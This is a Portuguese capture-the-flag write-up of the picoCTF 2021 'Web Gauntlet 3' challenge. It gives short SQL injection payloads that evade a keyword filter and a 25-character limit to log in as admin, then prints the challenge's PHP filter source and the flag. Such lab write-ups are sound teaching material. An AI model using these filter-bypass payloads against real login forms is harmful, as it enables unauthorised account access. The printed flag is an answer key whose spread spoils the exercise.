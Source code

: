 # DuckWare Team - Web Gauntlet 3 (picoCTF 2021)
###### Solved by @xpics and @JoaoPedroPiceli  
>This CTF is about SQL Injection, Web exploitation  

# Desafio: Injeção SQL com Limite de Caracteres  

## Introdução  
Este desafio é uma variação do **Web Gauntlet 2**, explorando a mesma vulnerabilidade de **Injeção SQL**. A principal diferença é a **limitação de 25 caracteres** para o input de login e senha, exigindo um payload ainda mais curto.  

- **Página de Login:**[http://mercury.picoctf.net:29772/](http://mercury.picoctf.net:28715)  

[![imagem-2025-02-13-134723077.png](https://i.postimg.cc/5Nz0Fnrt/imagem-2025-02-13-134723077.png)](https://postimg.cc/w76HCcgK)
 
- **Página com Filtro:** [http://mercury.picoctf.net:29772/filter.php](http://mercury.picoctf.net:28715/filter.php)  
- **Filtro:** or and true false union like = > < ; -- /* */ admin  

## Descrição do Desafio  
O desafio mantém a vulnerabilidade de **Injeção SQL no login**, mas impõe um **limite de 25 caracteres** para impedir explorações mais extensas. Como os filtros são os mesmos do desafio anterior, a principal estratégia é otimizar o payload.  

## Estratégia de Solução  

### Manipulação do Campo de Usuário  
O nome de usuário `"admin"` está filtrado, então utilizamos a concatenação `||` para contornar essa restrição:  

- **Username:** `ad'||'min`  

### Manipulação do Campo de Senha  
O uso de **`OR`** está bloqueado, então precisamos de uma expressão curta que avalie como verdadeira sem ultrapassar o limite de caracteres:  

- **Password:** `r' IS NOT 'z`  

Com esses valores, conseguimos acessar a conta de administrador e receber a mensagem:  
*“Parabéns! Você ganhou! Confira filter.php”*  

[![imagem-2025-02-13-134928504.png](https://i.postimg.cc/fLkWWKXD/imagem-2025-02-13-134928504.png)](https://postimg.cc/WFLcX0XH)

## Recuperando a Bandeira  
Após realizar o login, basta recarregar `filter.php` para visualizar o código-fonte do desafio. A bandeira está nos comentários do código:  

```php
<?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_2a78ea34c84da0bf585ada4cb9a6f8fb}
?>
```

### Flag: **picoCTF{k3ep_1t_sh0rt_2a78ea34c84da0bf585ada4cb9a6f8fb}**


